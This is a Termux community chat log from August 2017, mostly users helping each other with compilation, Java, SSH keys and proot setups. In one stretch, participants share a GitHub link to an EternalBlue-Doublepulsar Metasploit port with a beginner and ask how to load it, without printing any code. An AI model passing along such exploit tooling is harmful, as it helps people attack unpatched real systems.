2017-08-27 22:05:01	waynecolvin	this is what i was thinking of earlier https://pastebin.com/VtaTL67L

2017-08-28 01:22:45	gitter	(suryapoo) Guys I just checked out fedora chroot for termux.. What's that

2017-08-28 01:22:53	gitter	(suryapoo) Is it fedora running on termux?

2017-08-28 01:49:51	gitter	(hattwj) It compiles ok, but when I try to use it there is an error.

2017-08-28 01:50:50	gitter	(hattwj) There are several symbols missing. gettext and SUN_LEN are also missing.

2017-08-28 02:13:57	waynecolvin	cd ~/../usr && grep -ilr 'gettext' # long wait... termux *has* gettext, maybe configure CFLAGS?

2017-08-28 02:16:01	waynecolvin	maybe adding "-lunistring" to CFLAGS

2017-08-28 02:19:26	waynecolvin	actually, if there are mutiple hang-ups it probably isn't going to be easy... :/

2017-08-28 02:19:40	gitter	(hattwj) Got it, i'll try that. I misspoke about gettext, its ok. The full list of missing sybols is: msgrcv, msgget, msgctl, rindex, SUN_LEN, rb_postponed_job_register_one

2017-08-28 02:20:38	waynecolvin	can you configure the build to compile less features lol

2017-08-28 02:21:21	gitter	(hattwj) I'm starting to wonder if using proot on a different rootfs would fix it. Ala that termux-fedora thing mentioned above.

2017-08-28 02:21:46	gitter	(hattwj) Hehe, yeah i wish.

2017-08-28 02:23:00	gitter	(hattwj) Those are all the warnings that pop up during compile, it fails on only one during execute.

2017-08-28 02:33:05	gitter	(suryapoo) whats the difference between fedora chroot and termux

2017-08-28 02:34:31	waynecolvin	i found some example code with "SUN_LEN" in it. it looks like it involves non-POSIX code... maybe reconfigure build?

2017-08-28 02:34:50	gitter	(hattwj) It can be used inside of termux, afaict its just a rootfs

2017-08-28 02:35:15	waynecolvin	termux has `proot' and a wra;per to use it called `termux-chroot'

2017-08-28 02:35:56	gitter	(hattwj) termux inception ;)

2017-08-28 02:37:03	waynecolvin	there are incompatibilities between Android and/or termux and other linux systems, but...

2017-08-28 02:37:49	waynecolvin	but, alot of those have to do with fie/dir locations, library calls and missing libs

2017-08-28 02:38:38	waynecolvin	don't just assume termux is 8ncompatible though!! the guys working on this have done alot!

2017-08-28 02:39:19	gitter	(hattwj) File/dir is mostly addressed w/ proot. Missing libs gets fixed by valid rootfs. Very much agree. Termux rocks!

2017-08-28 02:40:58	gitter	(hattwj) I'm just hoping to get this last thing squared away. Termux is the *only* one that will run postgres w/o root. Plus the api etc. it kicks ass.

2017-08-28 02:59:49	gitter	(suryapoo) Yea termux is the best !!!

2017-08-28 06:31:04	gitter	(masterkorp) nice! Curious, why are you running postgres on tmux?  @hattwj

2017-08-28 06:31:17	gitter	(masterkorp) Is it to power something like metasploit?

2017-08-28 06:52:07	gitter	(masterkorp) Also I have a question: Do you know if its possible to emultate touch event trough termux?

2017-08-28 07:01:59	gitter	(Auxilus) @masterkorp though we have postgres, we don't have steps to connect to msfdb

2017-08-28 07:09:10	gitter	(masterkorp) Whar is missing @Auxilus

2017-08-28 07:10:14	gitter	(Auxilus) Not sure, we dont get `msfdb`from git when we clone in first place...

2017-08-28 07:12:50	gitter	(masterkorp) so a git clone to metasploit/metasploit does not work?

2017-08-28 07:13:59	gitter	(Auxilus) We installed metasploit-framework by cloned source.. But that clone doesn't come with `msfdb`

2017-08-28 07:25:16	gitter	(masterkorp) should it come?

2017-08-28 07:25:58	gitter	(Auxilus) No, cz its not in git repo also..

2017-08-28 07:26:46	gitter	(masterkorp) hmm, I don't get such binary on the repo on my laptop

2017-08-28 07:27:37	gitter	(Auxilus) I guess you can directly do apt-get install metasploit-framework on kali.. Which installes msfdb

2017-08-28 07:28:42	gitter	(Auxilus) Can anyone try out https://gist.github.com/tennc/70a91ea279b6ae66b5be7b0cf35c419f

2017-08-28 07:28:43	gitter	(Auxilus) ?

2017-08-28 07:34:55	gitter	(suryapoo) Hi guys..how do I build DLL in termux

2017-08-28 07:38:16	gitter	(Auxilus) I think it needs `wine` package

2017-08-28 07:38:20	gitter	(Auxilus) Which we don't have

2017-08-28 07:38:40	gitter	(Auxilus) @suryapoo for Metasploit payload?

2017-08-28 07:47:43	gitter	(suryapoo) Cool.. no I was learning C so wanted to build a custom DLL ..

2017-08-28 07:47:52	gitter	(suryapoo) @Auxilus

2017-08-28 07:48:25	gitter	(Auxilus) Kk

2017-08-28 07:48:43	gitter	(Auxilus) I though you need dll for eternalblue

2017-08-28 07:50:37	gitter	(suryapoo) What's that

2017-08-28 07:51:34	gitter	(Auxilus) Its an msf exploit used to spread `wannacry ransomdware `

2017-08-28 07:52:24	gitter	(suryapoo) Omggggg

2017-08-28 07:52:55	gitter	(suryapoo) Auxilius you are one big Metasploit fan ,I guess.

2017-08-28 07:54:23	gitter	(Auxilus) I mean shit.. CIA developed eternalblue-doublepulsar  to spy - hackers stole the code - now its on git, where anyone can download it from

2017-08-28 07:55:22	gitter	(suryapoo) Omg ..wtf

2017-08-28 07:55:27	gitter	(suryapoo) Can u give me the link

2017-08-28 07:56:19	gitter	(Auxilus) https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

2017-08-28 07:56:45	gitter	(Auxilus) Don't worry, you cant use it in termux unless we get wine package..

2017-08-28 08:00:01	gitter	(Auxilus) The most interesting aspect of the attack is the malware used, might have been originally written by the National Security Agency. It was dumped by hacking group Shadow Brokers in April. The group had discovered the tools in 2016 and had tried to sell them online. After not being able to sell, it dumped them. NSA had not commented on the leak then, but security firms had warned of an attack at the time, and it turns out their predic

2017-08-28 08:00:18	gitter	(Auxilus) CIA *NSA

2017-08-28 08:04:49	gitter	(suryapoo) Ohhh..go

2017-08-28 08:04:50	gitter	(suryapoo) God

2017-08-28 08:43:16	tyrone	greetings friends

2017-08-28 08:45:58	tyrone	I am using #termux with the http://rootjunkysdl.com/files/ apps from root junkie and trying to root my nexus 5x android I have three windows in termuxand I want to close one or two and don't know how

2017-08-28 08:50:02	gitter	(suryapoo) Press and hold on the screen

2017-08-28 08:50:14	gitter	(suryapoo) U will see kill process

2017-08-28 08:50:15	gitter	(suryapoo) Press it

2017-08-28 09:05:30	tyrone	i have a folder called dirtycow.zip and gam6 and gam 7

2017-08-28 09:05:54	tyrone	i just want dirtycow and gam6

2017-08-28 09:06:09	tyrone	but there four oprn when i type LS

2017-08-28 09:08:39	tyrone	https://www.youtube.com/watch?v=DoZPhdwbMFc

2017-08-28 09:09:07	tyrone	i have been floundering with this for a day and a half

2017-08-28 09:09:57	tyrone	I am 12.06 in the video now the technician has only gam6 and dirty cow up in green color in termux and i have 4 items

2017-08-28 09:10:05	tyrone	i want to kill 2 of them

2017-08-28 10:41:27	gitter	(hattwj) @masterkorp I use postgres for rails development, so having it available is a big win. I spend a lot of time on the bus and enjoy coding on my phone.

2017-08-28 11:21:22	gitter	(spences10) Can everyone use npm install?

2017-08-28 11:21:44	gitter	(spences10) I get errors trying to install anything with npm

2017-08-28 11:21:48	gitter	(spences10) Permission errors

2017-08-28 11:22:17	gitter	(spences10) I've tried the setupstorage command

2017-08-28 11:25:15	gitter	(suryapoo) Permission errors occur when u installing any package on the sdcard

2017-08-28 11:25:32	gitter	(suryapoo) Install packages when inside the termux Home directory

2017-08-28 11:25:35	gitter	(suryapoo) You will be fine

2017-08-28 11:26:55	gitter	(masterkorp) @hattwj that is nice, altough I would probably connect to a kubernetes system or like that, and code via ssh

2017-08-28 11:28:14	gitter	(hattwj) @masterkorp  i know what you mean. Its mostly small apps that i tinker on, and i like having it available just in case.

2017-08-28 11:31:00	gitter	(vishalbiswas) small improvement. network_interface v0.0.2 onwards won't require additional patching to be installed in termux

2017-08-28 11:47:07	gitter	(Auxilus) @vishalbiswas so should I change network_interface-0.0.1 to 0.0.2 on wiki?

2017-08-28 11:47:23	gitter	(vishalbiswas) @Auxilus hasn't been released yet

2017-08-28 11:47:33	gitter	(Auxilus) K..

2017-08-28 11:47:50	gitter	(Auxilus) I added FAQ section on main wiki page..

2017-08-28 11:48:05	gitter	(Auxilus) Do check it out and modify if necessary

2017-08-28 13:02:06	gitter	(Techzindia) How to add

2017-08-28 13:02:08	gitter	(Techzindia) https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

2017-08-28 13:02:15	gitter	(Techzindia) this In Metasploit

2017-08-28 22:11:44	gitter	(sdrausty) @Auxilus Thanks for starting the FAQ😁 I posted a link to it at https://plus.google.com/u/0/109614420080028230010/posts/979xRh9etBF but it got taken down 🙁

2017-08-28 22:22:19	gitter	(Auxilus) @sdrausty I got only 2 questions on wiki..

2017-08-28 22:23:07	gitter	(Auxilus) @Techzindia you can't use Eternalblue-Doublepulsar in termux as we dont have wine package.

2017-08-28 22:35:47	rods-tab3	where's the FAQ ?

2017-08-28 22:36:52	gitter	(Auxilus) Its on wiki

2017-08-28 22:37:16	gitter	(Auxilus) https://wiki.termux.com/wiki/Main_Page#FAQs

2017-08-28 22:37:20	gitter	(sdrausty) rods-tab3: https://wiki.termux.com/wiki/Main_Page#Is_Termux_a_complete_Linhx_Environment.3F

2017-08-28 22:37:57	gitter	(Auxilus) @sdrausty got any questions?

2017-08-28 22:38:22	gitter	(sdrausty) Why is Linux spelled Linhx

2017-08-28 22:40:38	gitter	(Auxilus) Is it? I didn't know that..

2017-08-28 22:40:53	gitter	(Auxilus) Maybe its pronounced that way?

2017-08-28 22:41:02	gitter	(Auxilus) Leen-hux

2017-08-28 22:42:17	gitter	(sdrausty) Shouldn't it be Linhux, then?

2017-08-28 22:43:18	gitter	(Auxilus) Why it is spelled like that?

2017-08-28 22:44:45	gitter	(sdrausty) @Auxilus It should be Linux.

2017-08-28 22:44:50	gitter	(sdrausty) One of 1st-known Android DDoS malware infects phones in 100 countries

2017-08-28 22:45:05	gitter	(sdrausty) https://arstechnica.com/information-technology/2017/08/first-known-android-ddos-malware-infects-phones-in-100-countries/

2017-08-28 22:57:48	gitter	(Auxilus) 😂

2017-08-28 22:57:57	gitter	(Auxilus) Sry for the typo

2017-08-28 22:58:05	gitter	(Auxilus) Ill correct it ri8 away

2017-08-28 22:58:57	gitter	(Auxilus) @sdrausty its corrected now..

2017-08-28 23:09:52	gitter	(sdrausty) Great. Thanks @Auxilus 😀

2017-08-28 23:38:39	rods-tab3	works fine:  termux-open --chooser /storage/08C5-1EF7/__awk/docs/gawk-4.1.4-man.txt

2017-08-28 23:40:49	rods-tab3	but when try to open .pdf from same location, Drive brings up the .pdf but just has blank screen with filename at top;  opening same .pdfs from explorer is ok;  ideas ??

2017-08-29 00:33:49	gitter	(suryapoo)  Morning my lovely hackers

2017-08-29 00:35:01	gitter	(suryapoo) I came across apktool which requires tsu in termux

2017-08-29 00:35:18	gitter	(suryapoo) It says it will install JVM in rooted Android

2017-08-29 00:35:33	gitter	(suryapoo) So that means I can run .Java files in termux?

2017-08-29 00:35:37	gitter	(suryapoo) And create apks

2017-08-29 00:35:39	gitter	(suryapoo) ?

2017-08-29 00:38:24	gitter	(Hax4us) Bro...u can install apktool in non rooted phone also...no need of tsu

2017-08-29 00:39:35	gitter	(suryapoo) Are u logesh?

2017-08-29 00:39:46	gitter	(suryapoo) I read it on your blog bru

2017-08-29 00:39:54	gitter	(suryapoo) @Hax4us

2017-08-29 00:47:00	gitter	(Hax4us) Yes lokesh... Bro..yes.but now we can also..install apktool without root...like u can install Tmux-Bunch (apktool , zipalign , signapk included) and if u want only java ...so I can tell steps

2017-08-29 00:47:50	gitter	(suryapoo) Yes please

2017-08-29 01:12:12	gitter	(suryapoo) Anyone??

2017-08-29 01:40:48	gitter	(Hax4us) @suryapoo git clone https://github.com/Hax4us/java.git

2017-08-29 01:41:23	gitter	(Hax4us) mv java/openjdk/java /data/data/com.termux/files/usr/bin

2017-08-29 01:41:37	gitter	(Hax4us) Then u can execute java

2017-08-29 01:43:04	gitter	(suryapoo) @Hax4us I oso want apk tool

2017-08-29 01:45:36	gitter	(Hax4us) So U can use tmux bunch bro...it is very useful

2017-08-29 01:45:47	gitter	(suryapoo) How to do it

2017-08-29 01:46:30	gitter	(Hax4us) git clone https://github.com/Hax4us/Tmux-Bunch.git

2017-08-29 01:46:39	gitter	(Hax4us) Dont forget to read READ

2017-08-29 01:46:54	gitter	(Hax4us) README.md

2017-08-29 01:46:58	gitter	(Hax4us) For instructions

2017-08-29 01:46:58	gitter	(suryapoo) Cool

2017-08-29 01:47:12	gitter	(suryapoo) Thanks man

2017-08-29 01:47:25	gitter	(suryapoo) So now I can run .Java files on termux?

2017-08-29 01:55:10	gitter	(suryapoo) java -v

2017-08-29 01:55:10	gitter	(suryapoo) /data/data/com.termux/files/usr/bin/java[9]: /data/data/com.termux/files/home/java/openjdk/bin/java: No such file or directory

2017-08-29 02:39:27	gitter	(Codimiracle) ...

2017-08-29 02:39:53	gitter	(Codimiracle) $ pwd

2017-08-29 02:39:53	gitter	(Codimiracle) /data/data/com.termux/files/home/java/openjdk/bin

2017-08-29 02:39:53	gitter	(Codimiracle) $ ./java

2017-08-29 02:39:53	gitter	(Codimiracle) [full message: https://gitter.im/termux/termux?at=59a50c388f4427b462ad19e9]

2017-08-29 02:40:09	gitter	(Codimiracle) it not work.

2017-08-29 02:40:22	gitter	(Codimiracle) @Hax4us

2017-08-29 03:04:54	gitter	(Hax4us) chmod 777 java

2017-08-29 05:42:59	gitter	(Codimiracle) Yes, it is. But it doesn't work.

2017-08-29 05:43:11	gitter	(Codimiracle) -rwxrwxrwx 1 u0_a147 u0_a147    9856 Aug 29 14:32 java

2017-08-29 05:57:42	gitter	(Codimiracle) is it right for android aarch64?

2017-08-29 06:02:09	live_the_dreams	no probably nit

2017-08-29 06:03:07	live_the_dreams	im going to see if i can split up java so people can use github to host...

2017-08-29 08:16:18	gitter	(Auxilus) I made a tiny survival manual ( well sort of...), be sure to check it out on my repo

2017-08-29 08:53:55	gitter	(suryapoo) Hey guys thanks to @Hax4us  I'm running Java now

2017-08-29 08:54:00	gitter	(suryapoo) ./java

2017-08-29 08:54:00	gitter	(suryapoo) Usage: java [-options] class [args...]

2017-08-29 08:54:00	gitter	(suryapoo)            (to execute a class)

2017-08-29 08:54:00	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59a563e8ba0f0f6e38f58230]

2017-08-29 08:54:13	gitter	(suryapoo) Now is this JRE?

2017-08-29 08:54:31	gitter	(suryapoo) How to actually use this ..sorry I'm used to eclipse

2017-08-29 08:54:37	gitter	(suryapoo) Kindly help me out

2017-08-29 09:19:30	gitter	(Codimiracle) You should "apt install ecj" to compile *.java

2017-08-29 09:20:40	gitter	(Codimiracle) and then run it via  class name

2017-08-29 09:21:13	gitter	(Codimiracle) Thanks to @Hax4us

2017-08-29 09:21:59	gitter	(suryapoo) Cool..

2017-08-29 09:22:04	gitter	(suryapoo) Can u show me an example?

2017-08-29 09:22:24	gitter	(suryapoo) But the Java executable is in the bin folder of openjdk

2017-08-29 09:23:23	gitter	(suryapoo) So if I compile a .java via ecj..I'll have to copy the file inside the bin folder of openjdk?

2017-08-29 09:31:47	gitter	(Codimiracle) $ ls

2017-08-29 09:31:47	gitter	(Codimiracle) Main.java

2017-08-29 09:31:47	gitter	(Codimiracle) $ cat Main.java

2017-08-29 09:31:47	gitter	(Codimiracle) [full message: https://gitter.im/termux/termux?at=59a56cc2578b44a046fe0964]

2017-08-29 10:22:12	gitter	(suryapoo) Thanks !!!!!!!!!!

2017-08-29 10:22:19	gitter	(suryapoo) java is working !!!!

2017-08-29 10:22:28	gitter	(suryapoo) U guys rock!!!!!

2017-08-29 10:22:45	gitter	(suryapoo) Can i create a jar archive?

2017-08-29 10:26:28	gitter	(suryapoo) @Codimiracle ..you executed the main class after switching into the Java folder na ..

2017-08-29 10:52:38	azarus	Guys, wouldn't it be nice to have termux-microphone-record?

2017-08-29 12:24:08	atomi	good god

2017-08-29 13:35:31	gitter	(suryapoo) Guys..can anyone guide me with buildAPKS by sdrausty

2017-08-29 15:07:10	gitter	(sdrausty) @suryapoo Please follow the instructions at https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice 😀

2017-08-29 15:08:59	ayxih	But is there a way to do graphics without using java?

2017-08-29 15:39:24	gitter	(sdrausty) azarus: Please post a feature request at https://github.com/termux/termux-api/issues

2017-08-29 15:39:30	gitter	(sdrausty) termux-microphone-record sounds good

2017-08-29 15:43:19	gitter	(sdrausty) ayxih: Search `graphics` at https://sdrausty.github.io/pages/more There are a number of matches.

2017-08-29 15:48:13	ayxih	gitter, the only relevant thing is libcairo, I can do GUI with cairo?

2017-08-29 15:55:47	thenam3	Hey I am having some trouble using the external storage option of Termux with my galaxy S8. I was hoping for some help. Thanks!

2017-08-29 16:21:04	gitter	(sdrausty) thenam3: Have you read https://termux.com/storage.html ?

2017-08-29 16:27:09	gitter	(sdrausty) ayxih: There's one `gui` match at

2017-08-29 16:27:28	gitter	(sdrausty) https://termux.com/storage.html too.

2017-08-29 16:27:41	ayxih	at?

2017-08-29 16:28:52	gitter	(sdrausty) ayxih: Wrong link: gui match at

2017-08-29 16:29:02	gitter	(sdrausty) https://sdrausty.github.io/pages/more

2017-08-29 16:29:34	ayxih	gitter, ??? i see nothing

2017-08-29 16:29:59	gitter	(sdrausty) Package: cmake-curses-gui

2017-08-29 16:29:59	gitter	(sdrausty) Description: Curses based user interface for CMake (ccmake)

2017-08-29 16:29:59	gitter	(sdrausty) Homepage: https://cmake.org/

2017-08-29 16:32:11	gitter	(sdrausty) What kind of GUI are you trying to make? https://github.com/sdrausty/buildAPKsBrowsers/tree/master/Android-File-Manager has a nice GUI.

2017-08-29 16:37:42	ayxih	gitter, I am talking about drawing anything on the screen and receiving events (fingers). I just want to use gcc (ie. clang on termux) and make.

2017-08-29 16:53:49	gitter	(sdrausty) ayxih: Like https://github.com/sdrausty/buildAPKsSamples/tree/master/android-code/DrawDemo ? It's not clang though.

2017-08-29 16:54:32	ayxih	That's the kind of things I want to avoid.

2017-08-29 16:55:10	gitter	(sdrausty) What kinda things?

2017-08-29 16:56:07	gitter	(sdrausty) https://github.com/sdrausty/buildAPKsSamples/tree/master/android-code/DrawDemo Draws on screen from

2017-08-29 16:56:32	gitter	(sdrausty) finger touch events.

2017-08-29 16:57:18	ayxih	java and not simple make

2017-08-29 16:57:28	ayxih	the best would be C

2017-08-29 17:29:34	gitter	(sdrausty) ayxih: I hate to disappoint you, but https://www.google.com/search?q=most+popular+gui+language C is pretty low on this list. Java is #1.

2017-08-29 17:30:23	ayxih	I'm not interested in coding a GUI in C. I'm just interested by the existence of bindings.

2017-08-29 17:31:04	ayxih	but thank for your help. I will wait few years, and some pissed hacker will do the work.

2017-08-29 17:31:13	g093	ah

2017-08-29 17:32:06	g093	Google removes 300 Android apps that secretly hijacked phones for DDoS attacks https://www.theverge.com/platform/amp/2017/8/29/16219426/google-removes-apps-play-store-hijack-phones-ddos-attacks

2017-08-29 17:33:13	ayxih	That's fun. They build Android to allow those kind of things. :)

2017-08-29 17:37:27	g093	It's hilarious! Trusted apps at the Playstore...

2017-08-29 17:37:49	g093	And those were the ones that got media coverage.

2017-08-29 17:38:01	ayxih	The idea behind trusted apps is flawed since the beginning.

2017-08-29 17:38:39	g093	It's just Goolge's way of saying, "I want you."

2017-08-29 17:44:17	frumpylava	Termux can't do blink? :-/

2017-08-29 17:54:06	g093	frumpylava: blink should complement termux-microphone-record nicely.

2017-08-29 17:54:51	frumpylava	g093: huh? how so?

2017-08-29 17:55:37	g093	https://github.com/termux/termux-api/issues/50

2017-08-29 17:55:50	g093	blinking while recording, etc

2017-08-29 17:57:15	frumpylava	ah yes

2017-08-29 19:16:12	g093	jc

2017-08-29 19:16:12	g093	.

2017-08-30 00:01:12	gitter	(hattwj) Hey all, a few days ago I popped in to say hi and mention having trouble installing the rbtrace gem. Wanted to share I figured it out! Honestly a little more excited about this than I should be. I ended up going the ubuntu proot path. (Inside of termux) also learned in the process that docker containers can be extracted with tar and make an excellent rootfs for proot. They even have an aarch64 build pre-made. Sorry for the spam.

2017-08-30 00:02:35	gitter	(hattwj) But now i have an ubuntu-chroot inside of termux ;)

2017-08-30 00:12:32	gitter	(suryapoo) Greattttt

2017-08-30 00:57:44	Church-	So live_the_dream, I'm curious what kernel options docker needs? Curious since they're pushing for ports to raspi/arm right now.

2017-08-30 01:03:54	gitter	(hattwj) I think the min kernel version for docker is 3.18.x and I believe its related to c groups and namespaces.

2017-08-30 01:05:07	Church-	Ahhhh. Hmm. Point.

2017-08-30 01:10:30	gitter	(suryapoo) @hattwj ..do u get extra shell features using Ubuntu chroot?

2017-08-30 01:23:09	gitter	(hattwj) Not really, but i've noticed anything requiring compilation is much more likely to function. RVM works out of the box, though I have doubts about postgres working.

2017-08-30 01:28:18	gitter	(suryapoo) Cool ...

2017-08-30 01:33:26	gitter	(hattwj) Also, I've noticed its a touch slower when in the chroot.

2017-08-30 01:34:10	gitter	(hattwj) But if there's a program that won't run / compile its a nice option.

2017-08-30 01:35:09	gitter	(suryapoo) Great!

2017-08-30 02:37:45	m4t	i've been working on a shell script to call from the tasker plugin. i'm having issues where the script.sh will execute /data/data/com.termux/files/usr/bin/someapp. someapp then tries to run anotherapp, but fails due to bad ld_library_path. adding an 'export ld_library_path=...' doesn't seem to help.

2017-08-30 02:38:16	m4t	an strace shows the issue, e.g. [pid 28747] writev(2, [{iov_base="CANNOT LINK EXECUTABLE \"/data/data/com.termux/files/usr/bin/bash\": library \"libandroid-support.so\" not found",

2017-08-30 06:10:09	shanky	Hello, quick question , is there a way to import your own ssh key in termux ?

2017-08-30 07:06:23	g093	shanky: https://termux.com/ssh.html

2017-08-30 07:07:30	shanky	g093: I saw that, still can't find that directory on my samsung galaxy s7

2017-08-30 07:16:48	g093	g093: Which directory?

2017-08-30 07:18:57	g093	shanky: mkdirm

2017-08-30 07:19:09	g093	mkdir *mkdir?

2017-08-30 07:20:00	g093	touch~/.ssh/authorized_keys

2017-08-30 07:20:24	shanky	g093: from termux I can see .ssh , but not from a file manager

2017-08-30 07:23:48	shanky	g093: the problem is that I can't even find com.termux* directory

2017-08-30 07:24:10	g093	mc is a file manager, but u don't need a file manager shanky:

2017-08-30 07:24:29	shanky	g093: then how do you import you keys ?

2017-08-30 07:24:30	g093	do pwd

2017-08-30 07:24:57	g093	pwd +enter/return

2017-08-30 07:25:08	g093	whatz ur output

2017-08-30 07:25:25	shanky	/data/data/com.termux/files/home/

2017-08-30 07:25:30	g093	ok

2017-08-30 07:25:37	g093	ls .ssh

2017-08-30 07:25:49	g093	output please shanky:

2017-08-30 07:25:51	shanky	g093: I can see authorized_keys

2017-08-30 07:25:56	g093	ok

2017-08-30 07:26:11	g093	now follow instructions

2017-08-30 07:26:32	g093	ssh-keygen +enter/return

2017-08-30 07:27:38	shanky	g093: I know how to generate ssh-keys, but thanks

2017-08-30 07:28:29	g093	good

2017-08-30 07:28:50	g093	how is your ssh-ing doin now?

2017-08-30 07:33:21	shanky	g093: sorry, got interrupted

2017-08-30 07:34:09	shanky	g093: the problem is how to export/import content from termux (in this case id_rsa.pub or authorized_keys)

2017-08-30 07:34:28	g093	shanky: howd ssh-keygen work for u?

2017-08-30 07:34:49	shanky	g093: worked fine

2017-08-30 07:35:10	g093	$ ssh-keygen --help

2017-08-30 07:35:26	g093	$ man ssh-keygen

2017-08-30 07:36:06	shanky	g093: thanks for your help, but I'm missing your point here

2017-08-30 07:36:22	g093	?

2017-08-30 07:37:56	shanky	g093: not sure how ssh-keygen can help on how export the public key out of termux

2017-08-30 07:39:33	g093	shanky: good ? importing/exporting hopefully someone can help us out

2017-08-30 07:40:14	g093	I have a couple of questions 'bout `gpg` keys

2017-08-30 07:42:29	g093	Specify a key format for the -i (import) or -e (export) <from man ssh-keygen

2017-08-30 07:43:00	g093	shanky: copy it to /sdcard

2017-08-30 07:43:09	g093	cp key /sdcard

2017-08-30 07:54:33	gitter	(sdrausty) @hattwj Is there a way to run a kernel in Termux 💪 🙂 like in docker?

2017-08-30 08:59:50	gitter	(masterkorp) Do any of you of guys use aircrack or any other wireless penttesting suites in termux?

2017-08-30 09:01:27	gitter	(deepakbndeepu) masterkorp: which one?

2017-08-30 09:05:28	gitter	(Hax4us) @masterkorp no...i think it is not possible bcz first we will have to modify kernel and compile kernel bcz android does not know how to handle wireless adapter... Bcz wireless adapter is must for enable monitor mode ...and almost phones have not...in build broadcom chip...

2017-08-30 09:47:41	frumpylava	ugh... perl modules are so annoying in termux. Anybody has any good ideas how to do it simpler? I tried installing a single Module with cpanm and it is installing a million different things.

2017-08-30 10:29:02	frumpylava	ugh... I found to programs that do what I want (encrypting an incoming email) and one of them is written in perl, apparently requiring 30 modules, some of which won't work and the other is written in Rust :-/

2017-08-30 10:47:44	g093	https://sdrausty.github.io/au/

2017-08-30 10:47:59	Grimler	frumpylava: simplifying installation of perl modules would be very nice.... A wrapper script that takes care of the most basic setup for cpanm or perhaps a termux package with cpanm settings would be very useful

2017-08-30 10:48:28	g093	frumpylava: You are in contrib :)

2017-08-30 10:50:24	g093	we need prayers for harvey

2017-08-30 10:51:32	frumpylava	Grimler: It's not just that. Installing a single module in cpanm took like 2 hours, and then it failed.

2017-08-30 10:55:54	Grimler	frumpylava: without useful error messages I persume? I had to do the build steps manually to find out what the problem was if I remember correctly

2017-08-30 10:58:39	frumpylava	yeah. It just sort of failed. But even if it worked after all, It really annoys me that it would take longer to install a single perl module (Mail::GnuPG) than to install "scheme-full" in texlive (which is every package).

2017-08-30 11:04:01	Grimler	Haha, yeah, that is remarkable (though, to be fair, texlive's packages doesn't require any configuring&making, but still). Maybe it's possible to speed it up with some settings/dependencies...

2017-08-30 11:10:05	gitter	(spences10) Where do I install npm global modules from?

2017-08-30 11:12:01	gitter	(spences10) Keep getting permission errors

2017-08-30 11:39:07	g093	youtube-dl http://www.cnn.com/videos

2017-08-30 11:39:23	g093	harvey is parked

2017-08-30 11:40:31	g093	gitter:  i love  "scheme-full" i disdain the download

2017-08-30 11:47:21	g093	u can + youtube-dl http://www.cnn.com/videos to ur crond in Termux

2017-08-30 11:47:38	g093	i find it too grsm

2017-08-30 13:02:51	g093	dvr n mi pocket

2017-08-30 13:02:57	g093	Termux

2017-08-30 13:03:23	g093	wow

2017-08-30 13:22:07	maxamillion	has anyone by any chance found a fix to this? https://github.com/pyca/pynacl/issues/280

2017-08-30 13:23:23	maxamillion	I can not seem to 'pip install pynacl' because of https://paste.fedoraproject.org/paste/Od3pIpkCI598hnvxYnRKNw

2017-08-30 13:28:20	g093	failed with error code 1 in /data/data/com.termux/files/usr/tmp/pip-build-tvosxhp6/pynacl/

2017-08-30 13:30:30	g093	error: [Errno 2] No such file or directory: '/data/data/com.termux/files/usr/tmp/pip-build-tvosxhp6/pynacl/src/libsodium/configure'

2017-08-30 13:34:18	g093	maxamillion: https://sdrausty.github.io/logs/par

2017-08-30 13:36:29	g093	maxamillion: https://sdrausty.github.io/logs/par.txt

2017-08-30 13:47:12	g093	:-):-D:-P$ play-audio 'U2 New Year'\''s Day (Full Version)-vdLuk2Agamk.mkv'

2017-08-30 13:49:04	g093	$ play-audio Ground\ Control\ to\ Major\ Tom-AFks9A9TCF0.mkv

2017-08-30 13:52:15	g093	^C

2017-08-30 13:52:15	g093	$ play-audio 2001/The\ Blue\ Danube\ \(Vienna\ Philharnonic\ Orchestra\)-D6t318FgFdc.mkv

2017-08-30 16:37:01	azarus	What's faster to encode vp8/9 video with, VDPAU or VAAPI (AMD R9 Fury / Intel i5-6600K)?

2017-08-30 16:38:02	azarus	Oh whoops, wrong channel.

2017-08-30 18:38:41	g093	$ play-audio Carly\ Simon\ -\ You\'re\ So\ Vain\ \(with\ lyrics\)-b6UAYGxiRwU.mkv

2017-08-30 21:28:55	wk44s	hi, pls are there a way to install telegram on finch? libpurple is needed right?

2017-08-30 23:20:44	gitter	(suryapoo) Guysss

2017-08-30 23:20:50	gitter	(suryapoo) Can we have sqlmap for termux

2017-08-31 00:59:47	gitter	(suryapoo) Anyone has installed kivy  with success in python

2017-08-31 09:24:36	frumpylava	Why is f-droid always so slow. I wonder if I should just change back to google-play

2017-08-31 09:36:49	wk44s	slow?

2017-08-31 09:36:55	freddyx	wtf

2017-08-31 09:36:58	freddyx	is fastly fdroid

2017-08-31 09:39:30	gitter	(Ashish882) Hi

2017-08-31 09:39:41	gitter	(Ashish882) Anyone here

2017-08-31 09:39:52	wk44s	hi

2017-08-31 09:40:04	freddyx	hi

2017-08-31 09:40:33	wk44s	pls, how can i install finch plugins on termux i686?

2017-08-31 09:40:46	gitter	(Ashish882) Can anyone help me to

2017-08-31 09:41:14	gitter	(Ashish882) I would like to use this open source code in a research project:

2017-08-31 09:41:14	gitter	(Ashish882)

2017-08-31 09:41:14	gitter	(Ashish882) https://github.com/yorsh87/nicp

2017-08-31 09:41:14	gitter	(Ashish882) [full message: https://gitter.im/termux/termux?at=59a811f9ba0f0f6e3801a1cc]

2017-08-31 09:41:38	gitter	(Ashish882) I can pay also who so help me.

2017-08-31 09:44:20	gitter	(Ashish882) I am ready to pay 25$ who will do this

2017-08-31 09:44:43	frumpylava	wk44s, freddyx: @fornwall has submitted Termux:Boot a month ago and it still isn't available on fdroid.

2017-08-31 09:45:03	freddyx	what

2017-08-31 09:45:06	freddyx	i've installed fdroid on termux

2017-08-31 09:45:08	freddyx	lol

2017-08-31 09:45:35	wk44s	check server compiler bot issues

2017-08-31 09:45:54	frumpylava	freddyx: https://gitlab.com/fdroid/fdroiddata/merge_requests/2438

2017-08-31 09:46:08	wk44s	run one time every week

2017-08-31 09:46:15	freddyx	what is termux:boot?

2017-08-31 09:46:40	freddyx	explain pls

2017-08-31 09:46:42	frumpylava	freddyx: It allows you to run commands after android boots.

2017-08-31 09:46:52	freddyx	wow

2017-08-31 09:48:23	wk44s	you can use yalp store to retrieve termux:boot from goo play if exist

2017-08-31 09:48:26	freddyx	wow

